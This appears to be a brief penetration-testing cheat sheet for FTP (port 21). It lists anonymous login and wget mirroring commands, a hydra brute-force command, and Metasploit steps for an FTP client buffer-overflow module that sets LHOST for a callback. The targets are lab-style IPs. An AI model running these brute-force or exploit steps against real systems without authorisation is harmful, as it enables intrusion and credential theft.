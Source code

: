 # Port 21 (FTP)

## Default Commands
### Browser connection
```bash
ftp://anonymous:anonymous@10.10.10.98
```
### File Download
```bash
wget -m ftp://user:pass@<ip>
```

## Brute Force
hydra -L <list> -P <list> 10.10.10.10 ftp

## Buffer Overflow
> https://www.exploit-db.com/exploits/44968
```bash
msfconsole
```
```bash
use exploit/windows/ftp/ftpshell_cli_bof
```
```bash
set LHOST <IP>
```
```bash
exploit -j
```
